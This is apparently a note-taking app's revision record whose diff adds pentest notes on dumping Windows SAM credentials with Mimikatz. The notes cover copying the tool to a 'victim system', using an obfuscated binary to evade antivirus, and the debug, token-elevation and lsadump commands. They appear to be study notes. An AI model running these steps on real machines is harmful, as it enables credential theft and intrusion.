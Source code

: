 id: fc6385b59e36442dbf97cb616e0ddde9
parent_id: 626a9b181969422b9bad962dd95f040e
item_type: 1
item_id: ca065c5dd0874a67afa30248bca1177d
item_updated_time: 1643543403203
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ched in \"],[-1,\"*\"],[1,\"\\\\*\\\\\"],[0,\"*adminis\"]],\"start1\":85,\"start2\":85,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"strator \"],[-1,\"*\"],[1,\"\\\\*\\\\\"],[0,\"*command\"]],\"start1\":103,\"start2\":103,\"length1\":17,\"length2\":19},{\"diffs\":[[0,\"d prompt\"],[1,\"\\\n- Copy mimikatz into the victim system - likely will be blocked by AV so recommend to have a obfuscated binary available\\\n    - mimikatz.exe available in **/usr/share/windows-resources/mimikatz**\\\n\\\n<ins>**Step 1: First get SeDebugPrivilege**</ins>\\\n\\\n> ./mimikatz.exe\\\n> \\\n> privilege::debug\\\n> \\\n> token::elevate\\\n\\\n![4966301c6746503dccea81898dadde74.png](:/334623ca52664eccae7ac0a21d291aa2)\\\n\\\n<ins>**Step 2: Dump contents of the SAM database**</ins>\\\n\\\n> lsadump::sam\"]],\"start1\":121,\"start2\":121,\"length1\":8,\"length2\":465}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-30T11:50:57.405Z
created_time: 2022-01-30T11:50:57.405Z
type_: 13